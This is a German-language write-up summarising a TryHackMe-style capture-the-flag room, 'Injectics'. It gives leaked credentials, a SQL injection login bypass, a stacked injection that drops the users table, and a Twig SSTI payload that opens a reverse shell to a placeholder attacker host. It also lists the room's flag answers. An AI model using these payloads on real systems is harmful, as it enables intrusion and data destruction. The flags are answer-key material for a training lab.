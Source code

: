 # 📝 Injectics Write-up Zusammenfassung (ab `/mail.log`)

Mail.log enthält klare Anmeldedaten
- In `/mail.log` findest du zwei Accounts:
  ```
  superadmin@injectics.thm  | superSecurePasswd101
  dev@injectics.thm         | devPasswd123
  ```

SQLi im Login umgehen → erster Zugriff
- Das Login-Formular auf der Hauptseite filtert Schlüsselwörter wie `or`, `and`, `union`, `'` clientseitig – aber nur lowercase.
- Du umgehst das mit Payloads wie:
  ```
  username=' || 1=1 –-  (oder mit sleep für Zeit-basiert)
  ```
- Damit loggst du dich als „dev“-User ein.

 Zerstörung der `users`-Tabelle über Admin-SQLi
- Auf der Leaderboard-Seite (`edit_leaderboard.php`) kannst du Metadaten (z. B. gold, country) verändern – hier findet sich eine serverseitige SQLi-Lücke.
- Über einen Payload wie:
  ```
  gold=..., country=...; DROP TABLE users;-- -
  ```
  löschst du die gesamte `users`-Tabelle.

Automatische Wiedereinsetzung der Tabelle
- Der Dienst „injecticsService“ erkennt den Ausfall und stellt die Tabelle automatisch wieder her.
- Nach kurzer Wartezeit (1–2 Minuten) kannst du dich mit den Credentials aus `mail.log` als **superadmin** oder **admin** anmelden und bekommst damit **Flag 1**.

 SSTI im Admin-Bereich für RCE → Flag 2
- Im Admin-Dashboard gibt es ein Profil-Update, wo der Name angezeigt wird – und **SSTI** möglich ist (getestet mit `{{7*7}} → 49`).
- Über einen Twig-Trick (`sort('passthru')`) kannst du shell-Befehle ausführen, z. B.:
  ```jinja
  {{ ['bash -c "exec bash -i >& /dev/tcp/ATTACKER/PORT 0>&1"', ""] | sort('passthru') }}
  ```
  → Reverse Shell
- Alternativ kannst du die SSTI nutzen, um direkt Dateien auszulesen:
  ```jinja
  {{ ['cat /var/www/html/flags/XXXX.txt', ""] | sort('passthru') }}
  ```
  → Damit liest du **Flag 2** aus.

Flags & Endergebnis
- **Flag 1** (Admin-Panel): `THM{INJECTICS_ADMIN_PANEL_007}`
- **Flag 2** (Flag-Verzeichnis): `THM{5735172b6c147f4dd649872f73e0fdea}`
 Fazit
1. `/mail.log` → echte Admin-Creds  
2. SQLi → Login als dev  
3. SQLi im Leaderboard → `DROP TABLE users`  
4. Automatisch wiederhergestelltes Admin-Konto → Flag 1  
5. SSTI im Profil → RCE oder Datei-Lesen → Flag 2
